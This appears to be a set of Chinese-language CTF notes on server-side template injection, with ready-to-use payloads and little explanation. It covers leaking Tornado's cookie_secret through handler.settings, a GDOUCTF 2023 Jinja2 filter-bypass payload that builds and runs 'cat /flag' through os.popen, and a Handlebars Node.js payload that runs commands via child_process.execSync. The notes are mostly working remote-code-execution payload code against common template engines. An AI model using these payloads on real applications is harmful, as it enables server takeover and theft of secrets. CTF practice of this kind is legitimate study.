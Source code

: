 handler 指向 RequestHandler
而 RequestHandler.settings 又指向 self.application.settings
所有 handler.settings 就指向 RequestHandler.application.settings 了！

传递 error?msg={{ handler.settings }}得到：

'cookie_secret': 'b8e09977-6541-498b-9a30-08e3118b6e60'}

filehash: md5(cookie_secret+md5(filename))

## GDOUCTF 2023 ez_ze

[SSTI 绕过 | [GDOUCTF 2023]<ez_ze>](https://www.nssctf.cn/problem/3745) [参考文章](https://zhuanlan.zhihu.com/p/619441473)

可用 payload：

```python
{%set fza1=dict(po=a,p=b)|join%}
{%set res=(lipsum|string|list)|attr(fza1)(24)%}
{%set fza2=(res,res,dict(globa=a,ls=b)|join,res,res)|join%}
{%set fza3=dict(o=a,s=b)|join%}
{%set fza4=dict(pope=a,n=b)|join%}
{%set fza5=dict(get=a)|join%}
{%set fza6=(res,res,dict(builtins=a)|join,res,res)|join %}
{%set fza7=dict(chr=a)|join%}
{%set char=(lipsum|attr(fza2))|attr(fza5)(fza6)|attr(fza5)(fza7)%}
{%set command=char(99)%2bchar(97)%2bchar(116)%2bchar(32)%2bchar(47)%2bchar(102)%2bchar(108)%2bchar(97)%2bchar(103)%}
{%set re=dict(rea=a,d=b)|join%}
{%set fuck=(lipsum|attr(fza2))|attr(fza5)(fza3)|attr(fza4)(command)|attr(re)()%}
{%print fuck%}
```

# SSTI-nodejs

需要访问网址能才渲染

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return global.process.mainModule.constructor._load('child_process').execSync('/readflag / > /tmp/res');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
